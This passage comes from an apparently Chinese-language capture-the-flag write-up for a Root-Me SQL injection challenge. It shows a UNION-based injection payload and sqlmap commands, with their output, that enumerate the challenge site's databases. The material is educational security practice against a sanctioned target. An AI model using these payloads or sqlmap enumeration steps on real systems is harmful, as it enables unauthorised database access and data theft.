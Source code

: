 ```shell
    Payload: action=members&id=-8544 UNION ALL SELECT NULL,CONCAT(0x7178627171,0x5978584957435676765770754d7146467161426b7448577759637646646a44457458776c4975444b,0x716a627671),NULL,NULL-- TLgI
---
[21:56:47] [INFO] the back-end DBMS is MySQL
web application technology: Nginx
back-end DBMS: MySQL >= 5.0
[21:56:47] [INFO] fetched data logged to text files under 'C:\Users\Administrator\AppData\Local\sqlmap\output\challenge01.root-me.org'

[*] ending @ 21:56:47 /2019-03-17/
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/02.png)

------------

## 拖库

这里暂且先不用人工方式构造 payload ，先直接用 sqlmap 解题。


### 获取数据库

先获取所有数据库的库名：

```shell
sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1" --dbs

---
[22:02:30] [INFO] the back-end DBMS is MySQL
web application technology: Nginx
back-end DBMS: MySQL >= 5.0
[22:02:30] [INFO] fetching database names
[22:02:30] [INFO] used SQL query returns 2 entries
[22:02:30] [INFO] resumed: 'information_schema'
[22:02:30] [INFO] resumed: 'c_webserveur_31'
available databases [2]:
[*] c_webserveur_31
[*] information_schema
```

![](https://github.com/lyy289065406/CTF-Solving-Reports/blob/master/rootme/Web-Server/%5B49%5D%20%5B40P%5D%20SQL%20injection%20-%20file%20reading/imgs/03.png)

再查到当前数据库是 `c_webserveur_31` ：

```shell
sqlmap.py -u "http://challenge01.root-me.org/web-serveur/ch31/?action=members&id=1" --current-db

---
[22:18:40] [INFO] the back-end DBMS is MySQL
web application technology: Nginx
back-end DBMS: MySQL >= 5.0
[22:18:40] [INFO] fetching current database
current database: 'c_webserveur_31'
```
